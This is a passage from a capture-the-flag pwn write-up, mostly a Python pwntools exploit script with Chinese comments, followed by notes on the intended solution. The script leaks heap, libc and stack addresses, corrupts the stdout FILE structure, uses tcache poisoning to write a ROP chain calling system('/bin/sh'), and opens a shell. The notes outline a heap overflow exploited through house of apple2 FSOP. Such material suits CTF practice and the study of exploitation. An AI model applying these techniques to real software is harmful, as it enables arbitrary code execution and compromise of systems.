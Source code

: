 ```py
        # 现在有堆重叠，想想怎么 leak, 有 libc 之后可以直接修改 top_chunk 指针到 stdout 这样方便一点
        p.recv(8) # 读入那个 "(2048): "
        heap_leak =  u64(p.recv(8)) # leak heap addr
        heap_base = heap_leak - 0x2700
        log.info("heap_base: " + hex(heap_base))
        p.recv(8)
        libc_leak = u64(p.recv(8)) # leak libc addr
        libc_base = libc_leak - 0x21ace0
        system_addr = libc_base + libc.sym["system"]
        pop_rdi_ret = libc_base + 0x2a3e5
        ret = libc_base + 0x2a3e6
        binshell = libc_base + 0x1D8678
        stdout = libc_base + 0x21b868
        log.info("libc_base: " + hex(libc_base))
        sleep(1)
        edit(9,key,p64(0xfbad1800)+p64(0)*3 + p64(libc_base + 0x0222200)+p64(libc_base + 0x222200+0x10)+p64(libc_base + 0x222200 + 0x10)) # 改 write_start 为 environ 来 leak
        p.recv(8) # 读入那个 "(2048): "
        environ_leak = u64(p.recv(8)) # leak environ addr
        ret_addr = environ_leak - 0x140 
        log.info("environ_leak: " + hex(environ_leak))
        # 0x7fff55f989e8 - 0x7fff55f988a8 
        edit(10,0,b"a"*0x10 + p64(0)+p64(0x21)+p64(ret_addr))
        edit(9,key,p64(pop_rdi_ret)+p64(binshell)+p64(ret)+p64(system_addr))
        p.recvuntil("Edit completed")
        p.sendline("cat flag")
        p.interactive()

    except Exception as e:
        log.info("Error: " + str(e))
        p.close()
        cnt -= 1
        if cnt == 0:
            exit(0)
        continue
```

## todo list - intended solution
not a difficult problem but a bit nasty.    

The given vulnerability is a heap overflow of 15 bytes.   

The leaking of the heap address is trivial, and the libc leak requires me to construct a fake big enough chunk and freeing it to put into unsorted bin.   

Then we will just play FSOP with house of apple2.   

Requires me 5 tcache poisoning attempts as below (so dirty!):
1. set up the "footer" of the fake 0x460 big chunk
2. set up the "footer" for the footer of the fake 0x460 big chunk, or it will crash when freeing the fake chunk
3. get a chunk to the fake chunk's `size` field to edit it to normal(which is `p64(0) + p64(0x461)`) after the unsorted bin leak, or else the malloc operations afterwards will crash
4. edit the _lock field of the fake IO_FILE on heap
5. edit the IO_list_all to fake IO_FILE's address on heap    
